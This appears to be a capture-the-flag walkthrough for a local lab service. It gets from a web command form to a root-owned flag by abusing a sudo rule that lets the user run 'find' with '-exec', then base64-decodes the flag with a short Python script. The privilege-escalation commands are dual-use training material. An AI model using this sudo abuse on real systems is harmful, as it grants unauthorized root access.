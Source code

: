 # Medium Misc Challenge Walkthrough

## Steps


Go to the service landing page at *http://localhost:5023* and login with the leaked credentials.
username: `operator`
password: `kevin`

![landing-page](./images/landing_page.png)    
 
![website](./images/website.png)  

Notice that the website lets you submit bash commands.  
Play around a little bit and check what you can do and who you are, for example by submitting the following:  
```sh
id && whoami && ls
```  
Notice that you are NOT `root`, but a user called `appuser`:  
![whoami](./images/whoami.png)  

Are you able to list files in the root fs?  
![denied](./images/permission_denied.png)  

Unfortunately, no, it seems that you cannot execute any actions that require root privileges.  

What can you do now?  

Check if there really are no commands or binaries that you can run as root by submitting the following:  
```sh
sudo -l
```  
![misc](./images/misc.png)  
This is interesting...your current user can run `find` as root, can you leverage this?  
Stop reading this for a moment and try to figure it out by yourself, If you are stuck, continue reading!  

Search for all the `flag` files:  
```sh
sudo find / -name "flag.txt" 2>/dev/null
```  
![find](./images/find.png)  

here is our flag, so close and yet so far!  
How can we read it??  

Once again try this by yourself, if you are stuck continue reading!  
Try to submit the following command in order to retrieve the documentation for `find`:  
```sh
sudo find --help
```  
![exec](./images/exec_command.png)  

As you can see, find has an `exec` option that allows you to execute another command for each file or directory that find locates!  
At this point we can try to leverage this to retrieve the flag!  

Submit the following command in order to interpolate `find` and `cat` in order to read the flag content:  
```sh
sudo find /root/flag.txt -exec cat /root/flag.txt \;
```  

This will return a very looong string:  
![obfuscated](./images/obfuscated.png)  

Your goal is to understand what type of encoding is used (of course is base64 but there is a little twist!)  
Basically the flag has been repeatedly base64-encoded, you need some type of automation to retrieve the original flag.  
Save the obfuscated flag string in a file called `obfuscated_flag.txt` and then use the following python script:   
```python
import base64

def base64_decode_until_flag(file_path, flag="WPCTF{"):
    # Read the encoded string from the file
    with open(file_path, 'r') as file:
        encoded_string = file.read().strip()

    decode_count = 0
    decoded_string = encoded_string
    
    # Keep decoding until the flag is found
    while flag not in decoded_string:
        try:
            # Decode the base64 string
            decoded_string = base64.b64decode(decoded_string).decode('utf-8')
            decode_count += 1
        except Exception as e:
            print(f"An error occurred during decoding: {e}")
            break

    # Print the final decoded string and number of iterations
    print(f"Decoded String: {decoded_string}")
    print(f"Total base64 decode iterations: {decode_count}")

# Example usage
file_path = "./obfuscated_flag.txt"
base64_decode_until_flag(file_path)
```  

With this you find the flag!!  🏴  
![flag](./images/flag.png)  


















